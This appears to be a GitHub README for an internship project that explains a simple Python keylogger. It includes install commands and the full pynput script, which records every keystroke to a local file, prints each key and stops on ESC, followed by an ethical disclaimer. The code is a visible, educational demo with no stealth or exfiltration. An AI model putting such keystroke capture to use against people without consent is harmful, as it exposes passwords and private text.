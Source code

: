 
Simple Keylogger in Python
Project Overview
Welcome to the Simple Keylogger in Python project! This project is part of my internship at Prodigy InfoTech. The goal of this task is to create a basic keylogger that captures and logs keystrokes. This project serves as a learning experience to understand how keyloggers work, their ethical implications, and the importance of cybersecurity.

Features
Keystroke Logging: Captures all keystrokes made by the user.
Special Key Handling: Identifies and logs special keys (e.g., Shift, Ctrl, etc.).
Logging to File: Saves the logged keystrokes to a specified text file.
Start/Stop Functionality: Listens for key press and release events to start and stop the keylogger.
Getting Started
Prerequisites
Ensure you have Python installed on your machine. You can download Python from here.

Installation
Clone the repository:

bash
Copy code
git clone https://github.com/Liyu-Desta/PRODIGY_CS_04.git
cd PRODIGY_CS_04
Install the required library:

bash
Copy code
pip install pynput
Usage
Navigate to the project directory:

bash
Copy code
cd PRODIGY_CS_04
Run the keylogger script:

bash
Copy code
python keylogger.py
Press keys on your keyboard to log them. The keystrokes will be saved to key_log.txt in the same directory.

To stop the keylogger, press the ESC key.

Code Explanation
The keylogger script is structured as follows:

python
Copy code
from pynput import keyboard

# Define the file where the keystrokes will be logged
log_file = "key_log.txt"

# Function to log the keystrokes
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f'{key.char}')
            print(f'Logged key: {key.char}')  # Debugging print statement
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')
            print(f'Logged special key: {key}')  # Debugging print statement

# Function to stop the keylogger (for demonstration, let's stop on ESC key)
def on_release(key):
    if key == keyboard.Key.esc:
        return False

# Start the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
on_press: This function logs regular and special keystrokes to key_log.txt.
on_release: This function stops the keylogger when the ESC key is pressed.
keyboard.Listener: Starts the listener to monitor key press and release events.
Ethical Considerations
Important: This keylogger is for educational purposes only. Logging keystrokes without explicit permission is illegal and unethical. Always obtain consent from users before deploying any keylogging software. Use this knowledge responsibly to enhance cybersecurity.

License
This project is licensed under the MIT License. See the LICENSE file for details.

Acknowledgments
Prodigy InfoTech: For the opportunity to work on this project.
pynput Library: For providing an easy-to-use interface for keyboard and mouse input monitoring.
Contact
For any questions or inquiries, please contact me at tiragoliyu@gmail.com.
